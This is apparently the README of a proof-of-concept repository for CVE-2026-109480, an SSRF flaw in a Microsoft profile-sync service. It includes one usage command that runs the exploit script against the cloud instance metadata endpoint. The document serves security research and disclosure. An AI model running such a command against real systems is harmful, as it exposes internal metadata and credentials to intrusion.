

<p align="center"></p>

<p align="center">


</p>

## Overview
**CVE-2026-109480** — CVSS 9.6 CRITICAL SSRF in Microsoft Profile Data Roaming Service (PDRS). The profile sync endpoint fetches a `source_url` supplied by an authenticated user without URL allowlisting, exposing internal IMDS, intranet APIs, and local file access.

## Attack Flow


## Usage
```bash
python3 poc.py --url https://pdrs.internal.example.com --bearer "eyJ..." --target "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

## References
- [NVD CVE-2026-109480](https://nvd.nist.gov/vuln/detail/CVE-2026-109480)
- [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

<p align="center"></p>
<p align="center"><sub>cveForge — Security Research &amp; Proof of Concept Repository</sub></p>
